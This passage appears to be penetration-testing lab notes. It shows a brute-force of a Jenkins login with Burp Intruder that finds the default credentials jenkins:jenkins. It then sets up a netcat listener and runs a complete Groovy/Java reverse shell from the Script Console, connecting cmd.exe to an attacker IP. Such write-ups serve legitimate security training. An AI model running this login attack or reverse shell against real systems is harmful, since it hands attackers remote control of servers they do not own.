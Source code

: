 Intercept the login request and send it to the Intruder.

- Use `Cluster bomb` attack type
- Set the payloads lists and start the attack

`jenkins`:`jenkins` is a valid login.

![](3-eth-hackassets/2024-07-14_18-49-15_627.png)

- Disable proxy

#### Reverse shell

- Login with `jenkins`:`jenkins`
  - search for code execution attacks: e.g. `jenkins script console exploit`
  - [Abusing Jenkins Groovy Script Console to get Shell | by Nishant Sharma | Pentester Academy Blog](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6)
- From the Manage Jenkins / Script Console, use [Pure Groovy/Java Reverse Shell](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) to get a reverse shell

```bash
# Kali VM
nc -nvlp 8044
```

```bash
# Script Console - run
String host="192.168.31.131";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

